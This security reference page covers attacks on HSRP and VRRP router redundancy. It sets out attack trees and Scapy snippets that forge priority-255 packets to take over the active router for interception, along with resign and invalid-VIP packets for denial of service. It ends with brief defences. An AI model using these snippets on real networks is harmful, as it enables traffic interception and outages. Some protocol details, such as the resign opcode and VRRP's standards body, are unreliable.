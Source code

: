 # First-Hop Redundancy Protocols (HSRP/VRRP)

```{contents} Table of Contents
:depth: 3
```

## Attack tree for HSRP

```text
1. Compromise HSRP Group (OR)

    1.1. Spoof HSRP Messages (OR)

        1.1.1. Forge Hello Packets (Take Over Active Router Role)

        1.1.2. Modify Priority/Preemption Values

    1.2. Exploit Weak Authentication (OR)

        1.2.1. Crack Plaintext/MD5 Authentication

        1.2.2. Bypass Authentication (If None Configured)

    1.3. Cause Failover Disruption (OR)

        1.3.1. Trigger Unnecessary Active-Standby Switches (DoS)

        1.3.2. Send Fake Resign Messages (Force Role Changes)

2. Man-in-the-Middle (MITM) Attacks (AND)

    2.1. Redirect Traffic via HSRP Takeover (AND)

        2.1.1. Become Active Router (Required)

        2.1.2. Intercept/Modify Traffic (Required)

3. Denial-of-Service (DoS) (OR)

    3.1. Flood HSRP Groups (OR)

        3.1.1. Send Excessive Hellos (Disrupt Election)

        3.1.2. Advertise Invalid Virtual IPs (Confusion Attack)
```

## Attack Tree for VRRP

```text
1. Compromise VRRP Group (OR)

    1.1. Spoof VRRP Advertisements (OR)

        1.1.1. Forge Master Router Advertisements

        1.1.2. Manipulate Priority Values

    1.2. Exploit Authentication Weaknesses (OR)

        1.2.1. Crack Simple Text/MD5 Authentication

        1.2.2. Exploit No Authentication (Default in VRRPv2)

    1.3. Disrupt Failover (OR)

        1.3.1. Force Unnecessary Master-Backup Transitions

        1.3.2. Send Fake Shutdown Events

2. Traffic Interception (AND)

    2.1. MITM via VRRP Takeover (AND)

        2.1.1. Become Master Router (Required)

        2.1.2. Redirect Traffic to Attacker Node (Required)

3. Denial-of-Service (OR)

    3.1. Flood VRRP Groups (OR)

        3.1.1. Overwhelm with Advertisements (Prevent Election)

        3.1.2. Advertise Conflicting Virtual IPs
```

## Key differences

HSRP (Cisco Proprietary) uses UDP 224.0.0.2 (TTL=1). Default authentication = plaintext

VRRP (IEEE Standard) uses 224.0.0.18 (IP Protocol 112). VRRPv3 supports IPv6 and improved auth

## Common attack patterns

* Priority Spoofing: Attacker sets higher priority to become active/master.
* Authentication Bypass: Exploits weak/no auth to inject malicious packets.
* Failover Abuse: Forces unnecessary role changes causing instability.

## HSRP-Specific Exploits

### Crafting Malicious HSRP Packets (Takeover Active Role)

Tool: Scapy (Python)

Send forged HSRPv1/v2 Hello packets with:

* Source IP/MAC = Spoofed legitimate router
* Virtual IP = Target VIP
* Priority = 255 (highest, ensures takeover)
* Group ID = Target HSRP group
* Authentication = Default (plaintext) or brute-forced MD5

```python
from scapy.all import *
sendp(Ether(src="00:11:22:33:44:55", dst="01:00:5e:00:00:02")/  
      IP(src="192.168.1.1", dst="224.0.0.2")/  
      UDP(sport=1985, dport=1985)/  
      HSRP(priority=255, group=1, virtualIP="192.168.1.254"),  
      iface="eth0", loop=1) 
```

Effect: Attacker becomes Active Router, intercepting traffic.

### HSRP DoS via Fake Resign Messages

Send HSRP Resign packet (state=0) from spoofed Active Router:

```python
HSRP(opcode=0, state=0)  # Forces standby routers to re-elect  
```

Effect: Causes flapping, disrupting traffic.

## VRRP-Specific Exploits

### VRRPv2 Master Takeover

Tool: Yersinia (yersinia -G) or Scapy

Send VRRP Advertisement with:

* Priority = 255 (higher than current Master)
* Virtual IP = Target VIP
* Authentication = Simple text (default) or cracked MD5

```python
sendp(Ether(dst="01:00:5e:00:00:12")/  
      IP(src="192.168.1.1", dst="224.0.0.18", proto=112)/  
      VRRP(vrid=1, priority=255, ipcount=1, addrlist=["192.168.1.254"]),  
      iface="eth0")
```

Effect: Attacker becomes Master, controls VIP traffic.

### VRRPv2 DoS via Invalid VIPs

Advertise conflicting VIPs (e.g., VIP = 0.0.0.0):

```python
VRRP(addrlist=["0.0.0.0"])  # Causes VIP conflicts
```
      
Effect: Breaks redundancy, forcing manual recovery.

## Post-Takeover MITM attacks

* ARP Poisoning: If VIP is shared, spoof ARP replies to redirect traffic.
* Traffic Interception: Use tools like ettercap or tcpdump on the new Active/Master router.

## Defensive measures

* Authentication: Use HSRP MD5 or VRRPv3 IPsec AH (avoid plaintext).
* Network Segmentation: Restrict HSRP/VRRP multicast (224.0.0.2/18) to trusted switches (ACLs).
* Monitoring: Alert on priority changes (e.g., via SNMP traps).

